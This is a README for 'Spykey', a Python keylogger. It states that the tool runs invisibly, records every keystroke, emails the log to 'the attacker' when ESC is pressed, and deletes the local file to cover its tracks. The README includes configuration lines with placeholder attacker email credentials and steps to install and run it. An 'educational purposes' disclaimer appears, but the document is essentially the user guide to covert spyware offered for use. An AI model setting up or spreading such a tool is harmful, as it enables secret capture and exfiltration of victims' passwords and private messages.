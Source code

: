 # Spykey
*by Subhodeep Sarkar*

Keylogger for spying made with Python

This keylogger, once started, can record all the keystrokes (Alphanumeric & Special keys) in a file and once the program terminates (By hitting ESC key), the
file is immediately sent to the attacker through email and then deletes the file locally to remove any track. The entire process is invisible to the user and
thus can prove fatal if used maliciously.

WARNING ⚠️: **This project is strictly for educational purposes, I will not be held responsible for any damage caused due to the misuse of this code**

![](email.png)
![](keystrokes.png)

## Configuration:
- LINE 9: Change sender email ``sender = 'attacker01mail@gmail.com'``
- LINE 10: Change sender password ``password = 'attacker01password'``
- LINE 54: Change recipient email ``create_and_send_email('attacker02mail@gmail.com'...``

## Usage:
- Install pynput using the following command ``pip3 install pynput``
- Run it using ``python main.py``
- Stop it by pressing ``ESC`` key

## Modules used:
- Pynput
- Datetime
- Os
- Email.message
- Mimetypes
- Smtplib
